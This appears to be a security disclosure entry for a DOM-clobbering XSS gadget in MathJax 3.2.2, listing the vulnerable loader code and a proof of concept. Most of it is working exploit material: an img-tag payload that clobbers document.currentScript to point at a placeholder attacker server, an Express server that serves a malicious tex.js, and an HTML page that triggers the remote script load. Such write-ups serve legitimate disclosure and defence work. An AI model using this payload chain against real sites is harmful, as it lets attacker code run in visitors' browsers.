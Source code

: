 ## MathJax

### Meta

+ Library: MathJax
+ Stars: 10.1K
+ Version: v3.2.2
+ Fingerprint: `MathJax.version == "3.2.2"`
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk


### Library

URL: 
+ `https://cdn.jsdelivr.net/npm/mathjax@3.2.2/es5/tex-mml-chtml.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mathjax/3.2.2/es5/tex-mml-chtml.js`

### Vulnerable Code Snippet

```javascript
t.getRoot = function() {
    var t = "//../../es5";
    if ("undefined" != typeof document) {
        var e = document.currentScript || document.getElementById("MathJax-script");
        e && (t = e.src.replace(/\/[^\/]*$/, ""))
    }
    return t
}
```
```javascript
prefix: function(t) {
    for (var r; (r = t.name.match(/^\[([^\]]*)\]/)) && e.CONFIG.paths.hasOwnProperty(r[1]); )
        t.name = e.CONFIG.paths[r[1]] + t.name.substr(r[0].length);
    return !0
}
```

## PoC

Note that some MathJax instances may be configured differently. If the image loads before MathJax is started, then `MathJax.config.loader.paths.mathjax` should be clobbered. Then, check `MathJax.config.loader.paths` or `MathJax.config.loader.source` to see what dependencies can be loaded in.

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

app.get('/input/tex/extensions/tex.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'tex.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```

### PoC #1
```html
<img name="currentScript" src="https://xxx.xxx.xxx:3000"></img>

<script id="MathJax-script" async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>

$$\require{tex}$$
```
